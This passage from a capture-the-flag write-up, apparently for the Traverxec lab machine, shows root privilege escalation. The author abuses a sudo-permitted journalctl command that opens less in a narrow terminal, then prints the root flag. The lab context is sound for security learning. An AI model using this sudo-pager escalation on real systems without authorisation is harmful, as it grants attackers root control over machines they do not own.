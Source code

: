 ## Getting Root
Digging around david's home directory we find an interesting file.
```
david@traverxec:~/bin$ cat server-stats.sh
#!/bin/bash

cat /home/david/bin/server-stats.head
echo "Load: `/usr/bin/uptime`"
echo " "
echo "Open nhttpd sockets: `/usr/bin/ss -H sport = 80 | /usr/bin/wc -l`"
echo "Files in the docroot: `/usr/bin/find /var/nostromo/htdocs/ | /usr/bin/wc -l`"
echo " "
echo "Last 5 journal log lines:"
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service | /usr/bin/cat
```
<br />

The last line here is particularly interesting. For those that don't know, when journalctl is invoked, if the size of the terminal window isn't large enough, journalctl will open a program called `less` which when run as sudo (like in this file).

So what we can probably gather from this, is that david is able to run the command `/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service`, even though we can't see the results of `sudo -l`, as we don't know david's password. A quick check confirms this theory.
```
david@traverxec:~/bin$ /usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service
-- Logs begin at Mon 2019-12-30 04:29:46 EST, end at Mon 2019-12-30 11:06:49 EST. --
Dec 30 09:57:59 traverxec sudo[2393]: pam_unix(sudo:auth): conversation failed
Dec 30 09:57:59 traverxec sudo[2393]: pam_unix(sudo:auth): auth could not identify password for [www-data]
Dec 30 09:57:59 traverxec sudo[2393]: www-data : command not allowed ; TTY=unknown ; PWD=/usr/bin ; USER=root ; COMMAND=list
Dec 30 09:58:41 traverxec sudo[2396]: pam_unix(sudo:auth): authentication failure; logname= uid=33 euid=0 tty=/dev/pts/4 ruser=www-data rhost=  user=www-data
Dec 30 09:58:54 traverxec sudo[2396]: www-data : command not allowed ; TTY=pts/4 ; PWD=/usr/bin ; USER=root ; COMMAND=list
```
<br />

So let's make our terminal window smaller and invoke this command. Allowing us to access `less` as sudo and perform our privilege escalation.
```
root@traverxec:/# id
uid=0(root) gid=0(root) groups=0(root)
root@traverxec:/# 
```
<br />

Nice. Time to get the flag.
```
root@traverxec:/# cat /root/root.txt
9aa36a6d76f785dfd320a478f6e0d906
root@traverxec:/# 
```
<br />
